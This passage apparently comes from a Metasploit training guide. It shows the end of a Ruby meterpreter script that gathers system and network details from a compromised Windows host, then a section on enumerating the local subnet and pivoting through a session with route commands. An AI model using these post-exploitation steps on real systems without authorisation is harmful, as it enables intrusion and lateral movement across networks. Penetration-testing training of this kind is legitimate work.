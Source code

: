              print_status("#{d}")
          end
          r.channel.close
          r.close
       rescue ::Exception => e
          print_error("Error Running Command #{cmd}: #{e.class} #{e}")
       end
    end
 end
 
commands = [ "set",
    "ipconfig  /all",
    "arp -a"]
 
list_exec(client,commands)
 
 
 
- Run the script:
 
meterpreter> run helloworld
  



###########################################
# Section 6: Tunneling For Fun and Profit #
###########################################

*****************************Enumerate the network you are on ***************************
 
meterpreter > run netenum
 
meterpreter > run netenum -ps -r 192.168.10.0/24
 
meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.10.0/24
 
 
 
********************************** Set up your Pivot **********************************
 
meterpreter > background
                                                        <-- background the session
        You want to get back to this prompt:
        msf exploit(handler) > back                     <--- you need to get to main msf> prompt
 
 
 
        sessions -l                                     <--find a session you want to pivot through (note the IP and session number)
       
        Now set up Pivot with a route add
        ---------------------------------
 
route print
 
route add 192.168.10.129 255.255.255.0 1                       <-- Use correct session id (2), it may be 3, or 4 (make sure you are on msf> prommpt, not meterpreter)
 
 
route print                                             <----- verify new route
 